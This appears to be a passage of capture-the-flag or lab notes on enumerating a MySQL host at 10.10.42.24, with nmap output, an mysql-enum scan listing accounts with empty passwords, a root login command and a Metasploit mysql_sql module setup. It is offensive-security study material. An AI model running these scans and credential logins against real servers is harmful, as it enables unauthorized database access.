 ```
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, InteractiveClient, ConnectWithDatabase, SupportsTransactions, SupportsLoadDataLocal, LongColumnFlag, SwitchToSSLAfterHandshake, SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, LongPassword, ODBCClient, Speaks41ProtocolOld, IgnoreSigpipes, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 9|j\x0E\x7F5pz1&      =scOBq7 "
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-04-23T10:13:27
|_Not valid after:  2030-04-21T10:13:27
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds
```

nmap mysql-enum script scan
```
$ nmap --script=mysql-enum 10.10.42.24
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 15:22 GMT
Nmap scan report for 10.10.42.24
Host is up (0.010s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds

```

conect to mysql server with previously found credentials (root:password)
mysql -h 10.10.42.24 -u root -p

use Metasploit module `mysql_sql` setting USERNAME, PASSWORD and RHOSTS
root, password, 10.10.42.24

run exploit with default values `select version()`
